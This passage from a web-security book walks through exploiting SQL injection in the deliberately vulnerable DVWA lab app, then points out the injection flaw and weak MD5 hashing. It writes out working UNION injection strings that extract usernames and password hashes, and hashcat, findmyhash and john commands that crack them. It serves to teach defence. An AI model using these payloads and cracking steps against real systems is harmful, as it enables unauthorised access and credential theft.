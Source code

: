 G> This told me that the query on the server was slightly different to what I thought. My revised guess of the full query:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT first_name, last_name FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT first_name, last_name FROM users WHERE first_name LIKE '%`
G>
G> Now for the passwords:  
G> Full server query guess:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT first_name, password FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT first_name, password FROM users WHERE first_name LIKE '%`
G>
G> Lets determine the hash type with hash-identifier. Just run it and throw the hash at it and it will tell you that it is most likely a simple MD5. which is a one-way hashing function with no Key derivation. So very quick to crack.
G>
G> So take your pick of the following three commands:  
G> Create `~/hashtocrack.txt` and put the hash(s) you want cracked in it. Now usually you would create a profiled wordlist taylored to your target like we did in the Password Profiling section of the People chapter in [Fascicle 0](https://leanpub.com/holistic-infosec-for-web-developers). For this exercise just add the following four words to `~/wordlist-to-throw-at-dvwa`:  
G> `dogs`, `cats`, `admins`, `admin`. Now you can compare the hashed words from the list with the hash in the `~/hashtocrack.txt`

{icon=bomb}
G> 1. `hashcat -m 0 ~/hashtocrack.txt ~/wordlist-to-throw-at-dvwa`  
G>    `-m 0` means MD5 to hashcat.  
G> 2. `[algorithm]` for next command in this case will be `MD5`  
G>    `findmyhash [algorithm] -h <hash_value>`  
G>    `findmyhash` is a cracker that queries online lists.  
G> 3. `john --format=raw-MD5 ~/hashtocrack.txt ~/wordlist-to-throw-at-dvwa --show`
G>
G> This gives us the super secure password of "admin"  
G>
G> In order to get login, we actually need the username. In this case they were the same, but for some other users they were not. So our last query.  
G> Full server query guess:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT user, password FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT user, password FROM users WHERE first_name LIKE '%`  
G> Or simplified:  
G> `1' UNION SELECT user, password FROM users#'`
G> Now we have our admin password and user.

There are two main problems here.

1. SQL Injection
2. Poor decisions around sensitive data protection. We discuss this in depth further on in this chapter in the [Data-store Compromise](#web-applications-identify-risks-management-of-application-secrets-data-store-compromise) section and even more so the [Countermeasures](#web-applications-countermeasures-data-store-compromise) of. Do not follow this example of a lack of well salted and quality strong key derivation functions (KDFs) used on all of the sensitive data in your own projects.
